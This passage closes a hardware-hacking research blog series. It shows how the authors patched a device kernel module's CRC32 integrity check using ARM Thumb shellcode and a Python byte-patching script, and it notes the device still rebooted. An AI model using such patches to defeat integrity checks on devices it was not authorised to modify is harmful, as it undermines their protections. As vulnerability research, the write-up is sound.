The renamed `PDC_crc32` function is called multiple times in the module and is expected, on valid integrity conditions, to return the content pointed by `param_2 - 1`. This behavior have been identified across all `PDC_crc32` calls with the following pattern:

```bash
res_crc32 = PDC_crc32(0,piVar1 + 1,*(param_1 + 4) + -4);
if (res_crc32 != *piVar1) {
	OSA_logWrite(2,2,"[pdc] DDRdata crc incorrect, Load from sramFile\n");
	memcpy(*(param_1 + 0x18),*(param_1 + 0x24),*(param_1 + 4));
}
```

#### Patching the kernel module CRC32 integrity check
Having understood the CRC32 function logic, why not just patch the `PDC_crc32` kernel function to just return something that will pass the integrity verification? 
This is what we have done and the following ARM32 *THUMB* shellcode is able to change the `PDC_crc32` logic to always successfully pass all checks when called:

```bash
push.w {r4, r5, r6, r7, r8, sb, sl, lr}
sub.w  r1, r1, #4
ldr    r0, [r1]
pop.w  {r4, r5, r6, r7, r8, sb, sl, pc}
```

We first preserve registers through `push` and `pop` calls and we substract `r1` register and dereference it into the return register `r0`. The shellcode can be generated with the online [ARM assembler/disassembler](https://shell-storm.org/online/Online-Assembler-and-Disassembler/) and with some python scripting (I don't feel comfortable in using Ghidra or some other solutions for that) it's possible to create a customized version of the module:

```python
import shutil
OFFSET = 0x1574

if __name__ == "__main__":
    shutil.copyfile("pdc.ko", "pdc_modded.ko")
    # bd e8 f0 8f     pop.w      {r4,r5,r6,r7,r8,r9,r10,r11,pc}
    shellcode = b"\x2d\xe9\xf0\x47\xa1\xf1\x04\x01\x08\x68\xbd\xe8\xf0\x87"
    with open("pdc_modded.ko", "r+b") as file:
        file.seek(OFFSET)
        file.write(shellcode)
```

After some debugging through trials and errors we succeeded to make the kernel module working, and... the system rebooted after 40 seconds, again.

## Conclusion & key takeaways
As introduced in the [first article](not-all-roads-lead-to-pwn2own-hardware-hacking-part-1.html) of the series, we took too much effort and time into trying to get a stable and working shell to just start the vulnerability research phase. The ability to understand when it's time to move on or to start getting things done with what you have, is an essential skill to maximize the efficiency of these kind of activities. We had also reversed the Android application, some Desktop binaries and tried few other things that weren't mentioned, but what you have read is a good extract of our overall activity on this target.

If you are interested into black and white box fuzzing, targeting another IoT device, stay tuned for the last part of the series!

## References
- [MindShaRE: How to “Just Emulate It With QEMU”](https://www.zerodayinitiative.com/blog/2020/5/27/mindshare-how-to-just-emulate-it-with-qemu)
- https://developer.toradex.com/software/linux-resources/linux-features/watchdog-linux/
- https://shell-storm.org/online/Online-Assembler-and-Disassembler/
